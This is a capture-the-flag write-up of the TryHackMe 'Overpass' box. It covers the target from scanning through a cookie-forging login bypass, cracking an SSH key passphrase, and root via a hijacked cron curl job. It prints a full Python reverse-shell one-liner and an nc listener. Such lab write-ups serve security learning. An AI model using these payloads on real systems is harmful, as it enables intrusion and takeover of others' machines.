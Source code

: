 # 'Overpass' box writeup

## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform

## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

![bg](images/background.png)

## Foothold

+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

![1](images/nmap_scan_ov_1.jpg)

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers.**
**We also see a download link button**

![2](images/visited.jpg)

**Accessing the download page, we can look through the Source code of the password-manager app.**
**It looks like it's written in go language which encrypt passwords with the ROT47 algorithm.**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

![3](images/admin.jpg)

+ **We can spot an admin page and accessing it, we can see an administrator login area.**
**I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln.**
**Let's look into the source code of the page and into some js code**

![4](images/scripts.jpg)

**We can clearly see a `login.js` script so let's look into the source code.**
**The login function seems to be a way to go.**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used.**
**It seems like the session token is set with the statusOrCookie parameter.**
**If we change the SessionToken value, maybe we can bypass the login.**
**Let's create the cookie with the name of *SessionToken* and any value you want inside it**

![5](images/session.jpg)

## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen.**
**Let's save it in some txt file and use it to connect to ssh.**

![6](images/RSA.jpg)

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the `rockyou.txt` wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

![7](images/johned.jpg)

**Using our password for the ssh we are in!**
**There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app.**

![8](images/userflag.jpg)

## Root escalation

+ **According the message inside the `todo.txt` file, we can see that james is using the same app to encrypt his password.**
**Listing the hidden files inside his directory we can see another file named `.overpass`.**
**It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running `sudo -l` command, we cannot se any allowed cmds for james user.**

![9](images/noturn.jpg)

+ **Let's continue and look into the `/etc/crontab` file**

``cat /etc/crontab``

![10](images/croned.jpg)

+ **We can see a `curl` command, executed by root, which runs every minute and transfer the data from the `buildscript.sh`, the building script for their encrypting app, into terminal, then executed by bash.**
**This script is taken from the machine local web-site, and the domain used is `overpass.thm`.**
**If we look into the `/etc/hosts` file we can see the `overpass.thm` dns belongs to the local ip of the machine**

![11](images/hostsetc.png)

+ **What if we can run our own script on this machine?**
**If we modify the `overpass.thm` domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell.**
**The respective script is executed by root so we're gonna get a root shell**

![12](images/modify.jpg)

**Next step is to create a similar path with the `/etc/crontab` `curl` get request from the host - `/downloads/src/buildscript.sh`.**
**Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![13](images/pythoned.jpg)

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

![14](images/root_flagos.jpg)

**And we are root!**
**It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting `crontab` service.**
